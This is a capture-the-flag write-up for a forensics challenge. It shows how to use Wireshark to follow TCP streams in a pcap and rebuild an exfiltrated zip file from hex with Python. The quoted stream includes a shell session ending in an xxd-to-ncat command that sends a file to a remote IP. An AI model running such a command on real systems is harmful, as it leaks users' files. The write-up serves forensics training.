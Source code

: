 # Cap ou Pcap

Link of the challenge: https://hackropole.fr/en/challenges/forensics/fcsc2020-forensics-cap-ou-pcap/

## Description
You are provided with a `cap.pcap` file containing the capture of a file exchange between two machines.
The file contain the flag of the challenge

## Solution 

A `.pcap` file is a capture ot network traffic (see https://en.wikipedia.org/wiki/Pcap). 
To analyze it we can use Wireshark (https://www.wireshark.org/), a free and open-source packet-analyzer. 

Once you open the file in Wireshark you should have something looking like that : 

![overview](overview.png "Overview of Wireshark")
Each line is a TCP packet exchanged between the machines. You can have more details on each one by selectioning them.  


If you select a packet you'll notice a bracket on the left of the screen, it materialize the TCP sessions. 
You can notice that there is two session captured: 

- **Session 1**: packet 1 to 23 and 32 to 37
- **Session 2**: packet 24 to 31

Let's focus on the stream 1. You can right click on a packet -> Follow -> TCP-Stream. (Or Ctrl-Alt-Shift-T). 
![stream 1](follow_stream_1.png "Instruction to follow stream 1")

You'll find the following instructions : 

``` sh
id

uid=1001(fcsc) gid=1001(fcsc) groups=1001(fcsc)

pwd

/home/fcsc

w

 07:10:25 up 24 min,  1 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
fcsc     tty7     :0               06:46   24:47   3.13s  0.00s /bin/sh /etc/xdg/xfce4/xinitrc -- /etc/X11/xinit/xserverrc

ls

Desktop
Documents
Downloads
Music
Pictures
Public
Templates
Videos

ls Documents

flag.zip

file Documents/flag.zip

Documents/flag.zip: Zip archive data, at least v2.0 to extract

xxd -p Documents/flag.zip | tr -d '\n' | ncat 172.20.20.133 20200
exit
```

While looking at it we see that `flag.zip` is send throught `ncat` in packet 23, which correspond with the start of the stream 2. 
The stream 2 then must contain the output of `xxd -p Documents/flag.zip | tr -d '\n'`. 

When focusing on the second stream we find some raw data, we'll try to convert them back to a zip file. 
The raw data we found are the output of `xxd -p Documents/flag.zip | tr -d '\n'`. The `tr` only remove the newline char, so we can skip it. 
The `xdd -p` transform the content of `flag.zip` into hex (see https://man.archlinux.org/man/xxd.1.en). 
We start by transforming the hex into bytes to retrieve the content of the file then write it on the filesystem. 
``` python
#!/usr/bin/env python3
data = bytes.fromhex("504b0304140000000800a231825065235c39420000004700000008001c00666c61672e7478745554090003bfc8855ebfc8855e75780b000104e803000004e80300000dc9c11180300804c0bfd5840408bc33630356e00568c2b177ddef9eeb5a8fe6ee06ce8e5684f0845997192aad44ecaedc7f8e1acc4e3ec1a8eda164d48c28c77b7c504b01021e03140000000800a231825065235c394200000047000000080018000000000001000000a48100000000666c61672e7478745554050003bfc8855e75780b000104e803000004e8030000504b050600000000010001004e000000840000000000")
with open("flag.zip", "wb") as f:
    f.write(data)
```

You now have a `flag.zip` on your system. You can unzip it to retrieve `flag.txt` that contain the desired flag. 
